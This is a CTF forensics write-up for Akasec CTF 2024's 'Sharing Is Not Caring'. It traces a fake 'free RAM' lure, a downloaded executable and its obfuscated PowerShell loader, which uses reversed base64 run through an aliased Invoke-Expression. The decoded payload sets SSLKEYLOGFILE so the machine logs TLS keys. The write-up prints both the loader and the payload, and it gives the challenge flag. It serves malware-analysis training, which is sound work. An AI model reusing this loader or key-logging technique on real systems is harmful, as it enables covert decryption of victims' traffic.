


# Akasec CTF 2024 – Sharing Is Not Caring 👃

- **Category:** Forensics
- **Points:** 257
- **Solves:** 40

## Challenge

> My friends and I use the same computer on campus and have a shared folder to exchange files. After submitting the flag for the challenge, it was leaked, and someone obtained it without my knowledge. I'm unsure how they got it. I accidentally left my computer unlocked at the coffee shop while I stepped away. I'm sure that someone took advantage of the opportunity and was searching for something.
>
> Author: d33znu75
>
> Attachments: [disk.ad1 & network.pcapng](https://we.tl/t-aZRdo6r3XC)

## Solution

A major part of this challenge was solved by my teammate `@Inés`. Upon seeing a `ad1` file, the first thing that comes to mind is to put it in `FTK Imager` to analyze it. So, let's start off with that. Reading the challenge description, we can see that the challenge is related to a shared folder, so we can look for the shared folder in the disk image, which is usually located at `C:\Users\Public\Documents`.



From the image above, we can see that there is a file called [GUYS download free RAM here!!!!.txt](solution/GUYS%20download%20free%20RAM%20here!!!!.txt), with a URL. So, let's try to `cURL` the URL to see what it contains.

```
└─$ curl http://freerambooster.000webhostapp.com/
# ...
https://cdn.discordapp.com/attachments/1067452256686981161/1248702817451905140/FREE_RAM.exe?ex=6665f21f&is=6664a09f&hm=61de04bb5a288d775eeb5454ebc524101914fc2b29efb0b137b27a5d7dd4ae3b&
# ...
```

We can open [FREE_RAM.exe](solution/FREE_RAM.exe) in `ILspy` to decompile it, and see what it does. There is a script attached to the executable called `free_raw.ps1`.

```powershell
$best64code = "iQWZ0N3bvJGIlJGIuF2Yg0WYyBybuBiLlV3czlGIsF2Yp5GajVGdgI3bmBSeyJ3bzJCIy9mcyVULlRXaydlCNoQDpcSZulGajFWTnACLlxWaGd2bMlXZLx2czRCIscSRMlkRH9ETZV0SMN1UngSZsJWYpJXYWRnbl1mbvJXa25WR0V2U6oTX05WZt52bylmduVkLtVGdzl3UbpQDK0QfK0QZslmRgUGc5RVblRXStASZslmRn9GT5V2SsN3ckACa0FGUtASblRXStcXZOBCIgAiCNsHIpkSZslmRn9GT5V2SsN3ckACa0FGUtQ3clRFKgQ3bu1CKgYWaK0gCNoQDic2bs5SeltGbzNHXr5WacBVVOdUSTxlclJ3bsBHeFBCdl5mclRnbJx1c05WZtV3YvREXjlGbiVHUcNnclNXVcpzQiASPgUGbpZ0ZvxUeltEbzNHJ" ;
$base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null ;
$LOADCode = [System.text.EnCOdING]::UTF8.getsTRiNg([sysTEm.coNvErT]::FromBASe64stRInG("$BaSe64")) ;
$PWN = "Inv"+"Oke"+"-ex"+"prE"+"SsI"+"ON" ; nEW-aLIas -naMe PWN -ValuE $pWN -foRce ; pwn $lOadCODe ;
```

By simply adding `Write-Output $LOADCode` to the end of the script, and removing the `$PWN` variable, we can get the deobfuscated code.

```powershell
$sslKeyLogFile = "C:\Users\Public\Documents\Internet Explorer\SIGNUP\ink\sslkey.log"


if (-not (Test-Path $sslKeyLogFile)) {
    New-Item -Path $sslKeyLogFile -ItemType File
}

[System.Environment]::SetEnvironmentVariable('SSLKEYLOGFILE', $sslKeyLogFile, 'Machine')

Write-Error "sorry for technical issue. no ram can be boosted"
```

From the deobfuscated code, we can see that the script creates a file called `sslkey.log` at `C:\Users\Public\Documents\Internet Explorer\SIGNUP\ink\sslkey.log`, and sets the `SSLKEYLOGFILE` environment variable to the path of the file. This file can be recovered from the `disk.ad1` file using `FTK Imager`.

```
└─$ cat sslkey.log
CLIENT_HANDSHAKE_TRAFFIC_SECRET 1883768c955100059c9e4ebcd16d8168e762436f65f66aaf905680f3e8a439a6 35f05c44c0d5cd5b9b80622cc6f7314895a0a0a45a2fa249291a509db8156256
SERVER_HANDSHAKE_TRAFFIC_SECRET 1883768c955100059c9e4ebcd16d8168e762436f65f66aaf905680f3e8a439a6 3a8ec62b1e2b1505ce7a44f1a7977490f302beef16c993b28ac4b1b512a2db76
CLIENT_RANDOM 53172363ba45dbe949f9f5c237c39b4a14f2a9d55cefb751420120a105a07c3e d877c33bdfa568ecc0c2e2304814cc9160209eee8d6b2ffb620f198a451d488010786fd0e7b4bf9c03a462b2af3aa1f8
# ...
```

From the output, we can see that the [sslkey.log](solution/sslkey.log) contains the `CLIENT_HANDSHAKE_TRAFFIC_SECRET`, `SERVER_HANDSHAKE_TRAFFIC_SECRET`, and `CLIENT_RANDOM`. This file can be used to decrypt the [network.pcapng](handout/network.pcapng) file using `Wireshark`.

After decrypting the traffic, we can simply search for the flag in the decrypted traffic, which can be found at packet `3014`, and is `AKASEC{B4s1c_M4lw4r3_4nd_PC4P_4n4lys1s}`.


